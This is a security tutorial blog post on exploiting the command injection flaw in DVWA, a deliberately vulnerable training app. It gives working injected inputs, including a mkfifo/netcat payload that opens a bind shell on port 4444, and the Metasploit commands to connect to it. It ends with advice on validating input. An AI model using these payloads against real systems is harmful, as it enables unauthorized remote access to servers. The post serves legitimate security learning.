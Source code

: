 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Exploiting Command Injection Vulnerability in DVWA
category: tech
tags: ["security", "redteam"]
---
```


In this post we'll go through the process of exploiting command injection
vulnerability in [DVWA]({% post_url 2017-04-02-dvwa-kali %}), and gain access to
the server using [Metasploit](https://www.metasploit.com/).

Command Injection is a type of vulnerability that allows attackers to execute
arbitrary commands on the host operating system by manipulating a vulnerable
software that the attacker can interact with. This type of attack is possible
when the application fails to properly validate user input and uses it to
execute shell commands on the host operating system.

To begin, we need to navigate to the _Command Injection_ section of DVWA, which
is designed to ping an IP address. Let's test the section by entering the IP
address `127.0.0.1` and observing the result.

![ci-1](/img/posts/ci/ci-1.png)

As we can see, the _Command Injection_ it's safe to assume that it simply
appends our input to the underlying bash command, and then it sends the result
as part of the returned HTML page. This means that we can use the input field to
execute arbitrary commands on the host operating system.

Let's try appending a list bash command after our input IP address:

```bash
127.0.0.1; ls
```

![ci-2](/img/posts/ci/ci-2.png)

As expected, the _Command Injection_ section executes the appended command and
displays the result. This confirms that we can use this vulnerability to execute
arbitrary commands on the host operating system.

Now, let's create a backdoor on the server by listening on port `4444` using
netcat and redirecting all the incoming bytes to a bash shell:

```bash
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
```

![ci-3](/img/posts/ci/ci-3.png)

As you can see, the page is loading forever, which means that our backdoor is
open and waiting for us.

Next, let's use Metasploit to gain access to the server. We will start
`msfconsole` and use the `exploit/multi/handler` module to open a shell on the
server:

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
exploit
```

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the `LPORT` of `bind_tcp`, since the default one is
`4444`.

As you can see, we are logged in as the `www-data` user, which has limited
privileges. We can't read the `/etc/shadow` file, which contains the user
passwords of the operating system. However, we have all the privileges that the
`www-data` user has and we can potentially modify DVWA or escalate to root by
exploiting a local privilege escalation vulnerability.

As a web developer, it's important to always sanitize your user input and never
pass this data to other applications without validating it first. In this case,
the application should validate the provided IP address and make sure that it's
a valid IP address before passing it to the `ping` command.
